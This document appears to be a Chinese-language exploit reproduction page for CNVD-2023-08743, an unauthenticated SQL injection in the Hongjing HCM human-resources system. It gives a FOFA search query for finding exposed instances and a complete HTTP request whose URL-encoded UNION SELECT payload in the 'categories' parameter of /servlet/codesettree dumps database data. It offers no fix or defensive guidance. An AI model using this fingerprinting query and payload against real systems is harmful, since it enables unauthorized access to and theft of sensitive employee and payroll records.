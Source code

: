 # CNVD-2023-08743 宏景HCM SQL注入漏洞复现
### 1.漏洞描述
宏景HCM系统是一款由宏景软件研发的系统，主要功能包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训、干部任免和人事流程等业务的管理，以及人事、绩效、培训、招聘、考勤等业务自助，还具备了报表功能和灵活的表格工具，支持集团管控、目标管理、领导决策等应用。

宏景HCM系统 categories处存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。

### 2.fofa语法
```plain
body='<div class="hj-hy-all-one-logo"' && title="人力资源信息管理系统"
```

### 3.漏洞复现
```plain
GET /servlet/codesettree?categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d&codesetid=1&flag=c&parentid=-1&status=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727274128257-e5650ba9-dd9a-4536-ba07-a6f7d3b8f3d8.png)



